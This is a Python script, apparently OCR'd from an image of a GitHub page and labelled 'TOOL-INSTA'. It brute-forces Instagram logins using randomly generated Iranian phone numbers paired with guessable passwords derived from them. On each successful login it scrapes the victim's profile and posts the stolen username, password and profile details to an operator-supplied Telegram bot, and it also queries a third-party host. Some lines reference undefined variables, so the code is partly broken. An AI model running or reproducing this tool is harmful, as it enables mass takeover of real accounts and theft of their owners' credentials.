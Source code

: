 # TOOL-INSTA
import os import webbrowser webbrowser.open('https://t.me/python824') from typing import Mapping try:     import random, requests, os, uuid, time, secrets     from uuid import uuid4 except ModuleNotFoundError:     os.system('pip install time')     os.system('pip install uuid')     os.system('pip install random')     os.system('pip install requests')     os.system('pip install uuid4') else:     BRed = '\x1b[1;31m'     BGreen = '\x1b[1;32m'     BYellow = '\x1b[1;33m'     BBlue = '\x1b[1;34m'     BPurple = '\x1b[1;35m'     BCyan = '\x1b[1;36m'     BWhite = '\x1b[1;37m'     lo = '— —'           print(' ')     print(BRed + lo * 24)     print(' ')     myadmin = input('  ' + BYellow + '- Send Your ID : ')     tele = input('  ' + BGreen + '- Send Your Token :  ')     os.system('clear')     print('\n   ' + BRed + '/\n' + BGreen + ' \n' + BRed + '\n━━━━━━━━━━━━━\n\n━━━━━━\n  ')     print(' ')     print(BGreen + lo * 24)     print(' ')      def info(user2, pasw):         global myadmin         global tele         cookie = secrets.token_hex(8) * 2         headr = {'HOST':'www.instagram.com',           'KeepAlive':'True',           'user-agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.73 Safari/537.36',           'Cookie':'cookie',           'Accept':'*/*',           'ContentType':'application/x-www-form-urlencoded',           'X-Requested-With':'XMLHttpRequest',           'X-IG-App-ID':'936619743392459',           'X-Instagram-AJAX':'missing',           'X-CSRFToken':'missing',           'Accept-Language':'en-US,en;q=0.9'}         url2 = f"https://www.instagram.com/{user2}/?__a=1"         ree = requests.get(url2, headers=headr).json()         name = str(ree['graphql']['user']['full_name'])         id = str(ree['graphql']['user']['id'])         followes = str(ree['graphql']['user']['edge_followed_by']['count'])         following = str(ree['graphql']['user']['edge_follow']['count'])         isp = str(ree['graphql']['user']['is_private'])         ids = str(ree['graphql']['user']['id'])         bio = str(ree['graphql']['user']['biography'])         re = requests.get(f"https://o7aa.pythonanywhere.com/?id={id}")         ree = re.json()         datee = ree['data']         ms = f"\n     slam new insta  ♥✅\n&lt; == == == == == == == == >\n⌯ ناوو  : {user2}\n⌯  ناوو : {name}\n⌯ passwrd : {pasw} \n⌯ فولوكان: {followes}\n⌯   : {following}\n⌯ فولوینگ : {isp}\n⌯ئايدي  : {ids}\n⌯ بايو : {bio}\n⌯ تاریخ  : tarex {datee}\n\n&lt; == == == == == == == == >\n⌯  : @a8ipar2 🤍\ @python824"         requests.post(f"https://api.telegram.org/bot{tele}/sendMessage?chat_id={myadmin}&amp;text={ms}")         print(BGreen + ms)       while True:         chars = '0987654321'         u = '937'         u1 = str(''.join((random.choice(chars) for i in range(7))))         u2 = str(''.join((random.choice(u) for i in range(1))))         user = '+98' + u + u1         pasw = '0' + u + u1         url = 'https://i.instagram.com/api/v1/accounts/login/'         headers = {'User-Agent':'User-Agent: Instagram 6.12.1 Android (22/5.1.1; 240dpi; 540x960; samsung; SM-G531H; grandprimeve3g; sc8830; fr_FR)',  'Accept':'*/*',  'Cookie':'missing',           'Accept-Encoding':'gzip',           'Accept-Language':'fr-FR, en-US',           'X-IG-Capabilities':'AQ==',           'X-IG-Connection-Type':'MOBILE(HSPA+)',           'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8',           'Host':'i.instagram.com'}         uid = str(uuid4())         data = {'uuid':uid,           'password':pasw,  'username':user,           'device_id':uid,           'from_reg':'false',           '_csrftoken':'missing',           'login_attempt_countn':'0'}         req_login = requests.post(url, headers=headers, data=data, allow_redirects=True)         if 'logged_in_user' in req_login.text:             user2 = req_login.json()['logged_in_user']['username']             info(user2, pasw)         elif '"message":"challenge_required","challenge"' in req_login.text:             print('  ' + BYellow + '  ⌯ Secure Acc --> ' + BWhite + ' :' + BYellow + f" {user}:{pasw} ")             requests.post(f"https://api.telegram.org/bot{tok}/editmessagetext?chat_id={ID}&amp;message_id={id_msg}&amp;text= \n\n LUCIFER \n✔️\n√ @  |√  \✔️»[{zz}]\n-《✖️ [{aa}]")         else:             print('  ' + BRed + '  ⌯ @python824 --> ' + BWhite + ' :' + BRed + f" {user}:{pasw} ")
